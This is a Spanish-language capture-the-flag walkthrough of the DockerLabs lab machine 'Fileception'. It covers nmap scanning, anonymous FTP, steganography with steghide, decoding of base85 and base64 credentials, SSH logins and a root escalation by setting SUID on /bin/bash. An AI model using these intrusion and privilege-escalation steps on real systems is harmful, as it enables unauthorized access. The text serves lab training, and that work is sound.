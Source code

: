 # Máquina Fileception

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

Creador -> [danielprz](https://rubelperez.github.io/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p21,22,80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrw-rw-    1 ftp      ftp         75372 Apr 27 02:17 hello_peter.jpg [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 618f9189a70b8e17b7dd38e000045947 (ECDSA)
|_  256 8a152913ecaaf620cac880145605ec3b (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Podemos acceder con el usuario **anonymous** al servicio **ftp**, donde tan solo encontramos una imágen, que nos descargaremos:

```shell
ftp 172.17.0.2
Name (172.17.0.2:albertomarcostic): anonymous
----------------------
230 Login successful.
```

```shell
ftp> ls
----------------------
-rwxrw-rw-    1 ftp      ftp         75372 Apr 27 02:17 hello_peter.jpg
```

```shell
ftp> get hello_peter.jpg
----------------------
226 Transfer complete.
75372 bytes received in 0.00 secs (205.3724 MB/s)
```

Echamos un vistazo a la web principal.
En el código fuente encontramos un comentario con un pista:

![Pasted image 20240427192722](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/eadca9bf-a0b2-4b2a-a6a0-de06d6dfa0e5)

```
@UX=h?T9oMA7]7hA7]:YE+*g/GAhM4
```

--------------
## Explotación

Tras probar con varios tipos como base64,32,etc. Conseguimos decodificar la clave con **base85**.
Podemos usar cualquiera página web.

La clave decodificada es -> "**base_85_decoded_password**"

----------------

Usaremos la herramienta **steghide** para ver si hay algo escondido dentro de la imagen descargada anteriormente:
Nos pide un salvoconducto o contraseña, así que probamos a usar la clave que hemos decodificado antes:

```shell
steghide --extract -sf hello_peter.jpg
Anotar salvoconducto: (introducimos la clave -> base_85_decoded_password)
----------------------------------------------------------------------------
anot los datos extrados e/"you_find_me.txt".
```

Obtenemos un archivo **you_find_me.txt**:

Al abrirlo, encontramos el siguiente contenido:

![Pasted image 20240427200214](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/9d5f18d8-6684-4227-bf25-911b2e71bb0c)

Haciendo un poco de búsqueda en google, se trata de un tipo de lenguaje de programación esotérico.
Lo intentamos interpretar con alguna web y obtenemos la siguiente cadena de texto:

![Pasted image 20240427202355](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/864f867b-401c-4417-996a-5bd914ecbfd3)

```
9h889h23hhss2
```

Probamos esta cadena como un directorio de la web pero no funciona. La probamos como el usuario **peter** por **ssh**

```
ssh peter@172.17.0.2
```

Estamos dentro !

------------
## Escalada de privilegios

Al acceder encontramos una nota importante:

```shell
cat nota_importante.txt 
-----------------------------------
NO REINICIES EL SISTEMA!!

HAY UN ARCHIVO IMPORTANTE EN TMP
```

Accedemos al directorio **/tmp** donde hay mas archivos:

```shell
cat recuerdos_del_sysadmin.txt 
------------------------------------------------
Cuando era niño recuerdo que, a los videos, para pasarlos de flv a mp4, solo cambiaba la extensión. Que iluso.
```

Encontramos otro archivo **importante_octopus.odt**
Nos lo descargamos en la máquina atacante con **scp**.

```shell
scp peter@172.17.0.2:/tmp/importante_octopus.odt ./
```

Probamos a cambiarle las extensiones, txt, sh, tar, zip, etc. Para ver como se comporta.
Tras varios intentos, con **zip**, al descomprimirlo, obtenemos varios archivos.

```shell
mv importante_octopus.odt importante_octopus.zip
```

Entre ellos un **leerme-xml**.

```shell
cat leerme.xml
-------------------------------
Decirle a Peter que me pase el odt de mis anécdotas, en caso de que se me olviden mis credenciales de administrador... Él no sabe de Esteganografía, nunca sé lo imaginaria esto.

usuario: octopus
password: ODBoMjM4MGgzNHVvdW8zaDQ=
```

Obtenemos las credenciales del user **octopus**, pero parece que su contraseña es **base64**, así que la decodificamos:

```shell
echo "ODBoMjM4MGgzNHVvdW8zaDQ=" | base64 -d; echo
-----------------------------------------------------
80h2380h34uouo3h4
```

Nos conectamos como el usuario **octopus** por ssh -> **octopus:80h2380h34uouo3h4**

```ssh
ssh octopus@172.17.0.2
```

Ejecutamos **sudo -l** para ver si podemos ejecutar algo como root:

```shell
sudo -l
--------------------
User octopus may run the following commands on 154c6f2b3e10:
    (ALL) NOPASSWD: ALL
    (ALL : ALL) ALL
```

Podemos ejecutar cualquier cosa como root:

```shell
sudo chmod u+s /bin/bash
bash -p
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en la máquina !
